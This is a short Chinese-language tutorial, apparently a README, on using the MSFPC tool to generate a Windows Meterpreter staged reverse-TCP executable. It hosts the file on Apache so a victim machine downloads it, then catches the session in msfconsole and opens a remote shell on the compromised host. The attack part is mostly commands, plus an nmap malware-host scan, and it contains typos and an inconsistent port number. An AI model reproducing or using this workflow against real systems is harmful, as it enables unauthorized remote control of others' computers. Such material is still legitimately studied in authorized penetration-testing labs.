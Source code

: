 # Metasploit-MSFPC-paylaod
---

一般来说，生成payload的默认工具是MSFvenom，这是一个独立于Metasploit的payload生成器及编码器。虽然它是一个非常强大的payload生成神器，但是对于一些新手来说，可能难以在短时间内熟悉其操作。即使在进行最初的了解之后，生成一个基本的payload也需要输入相当多的内容，而今天，我们将看到使用MSFPC更便捷地生成paylaod。
MSFPC，或者说是MSFvenom Payload生成器，其实是一个基于MSFvenom的Payload生成器，但是它旨在简化基本的有效载荷创建过程，用户使用MSFPC可以尽可能简单地创建Payload，有时甚至只需要一个参数！如果你以前使用过MSFvenom，那么可能已经自行编写了一个简单的shell脚本来自动化频繁地生成Payload。即使这样，这个工具也绝对值得一试。

通过Nmap脚本扫描WEB服务器或个人计算机是否被植入木马

命令：nmap --script=http-malware-host IP

命令：nmap --script=http-malware-host 192.168.0.103

nmap扫描结果，Host appears to be clean表示扫描的主机没有被植入木马。

普通的经常使用的Payload生成器简

msfvenom

利用命令行查看msfpc payload生成器生成的payload类别。

msfpc --help

利用msfpc开始监听端口并且生成相应的payload

命令：msfpc windows IP port

命令：msfpc windows 192.168.0.104 555

查看msfpc工具生成的payload信息

命令：ls

文件： windows-meterpreter-staged-reverse-tcp-555.exe

文件： windows-meterpreter-staged-reverse-tcp-555.exe.rc(payload配置信息)


---

查看监听主机的apapche2状态

命令：service apapche2 status

开启监听主机的apapche2主机

命令：service apache2 start

将生成的“windows-meterpreter-staged-reverse-tcp-555.exe”文件复制到apapche2目录下

命令：cp windows-meterpreter-staged-reverse-tcp-555.exe /var/www/html

删除“/var/www/html”目录下一些不相干的文件，只保留payload文件

命令：rm /var/www/html/index.html

命令：rm /var/www/html/index.nginx-debian.html

查看“/var/www/html”目录下是否只存在payload文件

命令：ls /var/www/html/

在物理机中访问处于监听状态下的kali linux主机

将生成的payload文件下载到物理主机，

连接payload文件

命令：msfconsole -q -r ‘/root/windows-meterpreter-staged-reverse-tcp-5555-exe.rc’

查看session信息

命令：session -i 1

成功拿下目标主机，查看目标主机的系统信息。

命令：sysinfo

利用shell访问目标主机

命令：shell

解决shell界面乱码问题

chcp 65001

